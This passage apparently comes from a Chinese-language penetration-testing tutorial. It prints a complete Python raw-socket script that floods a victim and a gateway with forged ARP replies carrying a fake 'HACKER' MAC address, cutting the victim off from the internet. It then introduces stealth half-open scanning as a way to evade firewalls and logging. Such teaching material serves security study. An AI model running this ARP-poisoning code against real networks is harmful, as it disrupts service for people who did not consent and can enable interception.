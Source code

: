 该代码与 ARP 欺骗的代码相同，只是有一些变化，解释如下：

```
import socket
import struct
import binascii
s = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, socket.ntohs(0x0800))
s.bind(("eth0",socket.htons(0x0800)))

sor = '\x48\x41\x43\x4b\x45\x52'

victmac ='\x00\x0C\x29\x2E\x84\x7A'
gatemac = '\x00\x50\x56\xC0\x00\x08'
code ='\x08\x06'
eth1 = victmac+sor+code #for victim
eth2 = gatemac+sor+code # for gateway

htype = '\x00\x01'
protype = '\x08\x00'
hsize = '\x06'
psize = '\x04'
opcode = '\x00\x02'

gate_ip = '192.168.0.1'
victim_ip = '192.168.0.11' 
gip = socket.inet_aton ( gate_ip )
vip = socket.inet_aton ( victim_ip )

arp_victim = eth1+htype+protype+hsize+psize+opcode+sor+gip+victmac+vip
arp_gateway= eth2+htype+protype+hsize+psize+opcode+sor+vip+gatemac+gip

while 1:
  s.send(arp_victim)
  s.send(arp_gateway)
```

运行`netdiss.py`。我们可以看到代码中只有一个变化，那就是`sor = '\x48\x41\x43\x4b\x45\x52'`。这是一个随机 MAC，因为此 MAC 不存在。交换机将丢弃数据包，受害者无法浏览互联网。

### 注

为了实施 ARP 缓存中毒攻击，受害者应该在 ARP 缓存中拥有网关的真实条目。

你可能想知道我们为什么使用 MAC`'\x48\x41\x43\x4b\x45\x52 ?`。只要把它转换成 ASCII 码，你就会得到答案。

## 半开放式扫描

顾名思义，半开放扫描或隐形扫描是一种特殊类型的扫描。隐形扫描技术被用来绕过防火墙规则，防止被日志系统检测到。然而，这是一种特殊类型的扫描，通过使用数据包制作完成，这在本章前面已经解释过。如果你想制作一个 IP 或 TCP 数据包，那么你必须提到每个部分。我知道这很痛苦，你会想到**和平**。然而，Python 的库将使它变得简单。

现在，让我们来看看使用 Saby。Scapy 是一个第三方库，允许您定制数据包。所以我们将编写一个简单而简短的代码，以便您能够理解 scapy。

在编写代码之前，让我们先了解半开放扫描的概念。以下步骤定义隐藏扫描：
